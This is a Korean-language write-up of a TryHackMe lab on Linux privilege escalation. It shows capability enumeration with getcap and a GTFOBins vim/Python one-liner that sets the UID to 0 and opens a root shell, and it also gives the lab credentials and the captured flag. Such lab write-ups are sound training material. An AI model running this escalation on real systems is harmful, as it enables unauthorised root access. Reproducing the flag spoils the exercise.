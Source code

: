 ## Privilege Escalation: Capabilities Abuse
> TryHackMe의 "Linux Privilege Escalation: Capabilities" 실습을 기반으로, `vim` 바이너리에 Capabilities가 부여되어 있는 점을 악용하여 루트 권한 획득 및 플래그 탈취에 성공하였다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.175.127
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **권한 상승 방법**: Capabilities가 설정된 `vim`을 통한 루트 쉘 획득
- **실습 일자**: 2025-04-19

---

### 2. 실습 과정

#### 2.1 SSH 접속
```bash
ssh karen@10.10.175.127
```
- karen 계정으로 타겟 머신에 SSH 접속하였다.

![SSH 접속](./screenshots/ssh_connect.png)

---

#### 2.2 Capabilities 권한이 설정된 바이너리 검색


```bash
getcap -r / 2>/dev/null
```
- 시스템 전반에서 Capabilities가 부여된 파일을 검색한 결과 `/home/karen/vim` 바이너리에 `cap_setuid+ep` 권한이 부여되어 있음을 확인하였다.

![Capabilities 검색](./screenshots/cap_setuid+ep.png)

---

#### 2.3 GTFOBins 참고

- https://gtfobins.github.io/ 사이트를 참고하여 `vim` 명령어에 `cap_setuid+ep` Capabilities가 부여되어 있을 경우 Python을 통해 루트 권한으로 쉘을 실행할 수 있다는 점을 확인하였다.

---

#### 2.4 루트 쉘 실행

- 우선 `/home/karen/vim` 바이너리를 vi 편집기로 열어 `:version` 명령어를 실행하여 `+python3` 기능이 포함되어 있음을 확인하였다. 이는 GTFOBins의 루트 쉘 실행 코드가 정상 동작할 수 있는 환경임을 의미한다.

![vi으로 버전 확인](./screenshots/vim_version.png)

```bash
/home/karen/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
- Capabilities 권한을 가진 vim을 통해 Python3 모듈로 UID를 0으로 설정하고 쉘을 실행함으로써 루트 권한을 획득하였다.

![루트 쉘 실행](./screenshots/shell_start.png)

---

#### 2.5 플래그 파일 찾기 및 획득
```bash
find / -name flag4.txt
cat /home/ubuntu/flag4.txt
```
- 루트 권한으로 시스템 전체를 검색하여 `/home/ubuntu/flag4.txt` 플래그 파일을 찾고, 내용을 확인하였다.

![플래그 획득](./screenshots/root_flag.png)

---

### 3. 최종 결과
- Capabilities를 악용한 루트 쉘 획득에 성공하였다.
- 루트 권한 획득 성공 (`uid=0(root)`)
- flag4.txt 파일에서 플래그 확보: `THM-9349843`

---

### 4. 배운 점

> ✅ 실습을 통해 Capabilities가 부여된 명령어 또한 루트 권한 상승에 직접적으로 사용될 수 있는 보안 위협이 될 수 있다는 점을 확인하였다. 특히 텍스트 편집기인 `vim`과 같이 평범해 보이는 프로그램이라도 `cap_setuid+ep` 권한이 존재할 경우 Python 모듈을 통해 손쉽게 루트 쉘 획득이 가능한 매우 치명적인 취약점으로 이어질 수 있었다.

